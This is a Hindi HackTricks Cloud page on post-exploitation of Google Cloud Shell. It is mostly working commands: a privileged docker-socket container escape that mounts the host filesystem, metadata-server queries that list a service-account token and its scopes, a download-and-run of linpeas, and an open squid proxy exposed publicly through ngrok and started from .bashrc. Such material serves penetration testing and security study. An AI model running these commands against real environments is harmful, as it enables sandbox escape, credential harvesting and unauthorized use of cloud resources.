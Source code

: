 # GCP - क्लाउड शैल पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) को PR जमा करके।
* &#x20;github repos.

</details>

## क्लाउड शैल

क्लाउड शैल के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### कंटेनर एस्केप

ध्यान दें कि Google Cloud Shell एक कंटेनर के अंदर चलता है, आप **आसानी से मेज़ पर एस्केप** कर सकते हैं इस तरह: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

गूगल द्वारा यह एक कमी मानी नहीं जाती है, लेकिन यह आपको उस वातावरण में क्या हो रहा है का एक व्यापक दृश्य प्रदान करती है।

इसके अतिरिक्त, ध्यान दें कि होस्ट से आप एक सेवा खाता टोकन खोज सकते हैं:
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

निम्नलिखित स्कोप के साथ:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

लिनपीएस के साथ मेटाडेटा की जांच करें:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

गिथब का उपयोग करने के बाद [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) सेवा खाते के टोकन के साथ **कोई अनुमति खोजी नहीं गई**...

### प्रॉक्सी के रूप में उसका उपयोग करें

यदि आप अपने गूगल क्लाउड शैल इंस्टेंस को प्रॉक्सी के रूप में उपयोग करना चाहते हैं तो निम्नलिखित कमांड चलाने की आवश्यकता है (या उन्हें .bashrc फ़ाइल में डालें):
```bash
sudo apt install -y squid
```
केवल आपको बताने के लिए, Squid एक http प्रॉक्सी सर्वर है। निम्नलिखित सेटिंग्स के साथ एक **squid.conf** फ़ाइल बनाएं:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
कॉपी करें **squid.conf** फ़ाइल को **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
अंत में स्क्विड सेवा चलाएं:
```bash
sudo service squid start
```
बाहर से प्रॉक्सी को उपलब्ध कराने के लिए ngrok का उपयोग करें:
```bash
./ngrok tcp 3128
```
चलाने के बाद, tcp:// url की कॉपी करें। अगर आप ब्राउज़र से प्रॉक्सी चलाना चाहते हैं तो सुझाव दिया जाता है कि tcp:// हिस्सा और पोर्ट को हटा दें और पोर्ट को अपने ब्राउज़र प्रॉक्सी सेटिंग्स के पोर्ट फ़ील्ड में डालें (squid एक http प्रॉक्सी सर्वर है)।

स्टार्टअप के लिए बेहतर उपयोग के लिए .bashrc फ़ाइल में निम्नलिखित लाइन होनी चाहिए:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
इन निर्देशों को [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) से कॉपी किया गया था। किसी भी प्रकार के सॉफ्टवेयर (डेटाबेस और यहाँ तक कि विंडोज) को क्लाउड शैल में चलाने के लिए अन्य पागल विचारों के लिए उस पेज की जाँच करें।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
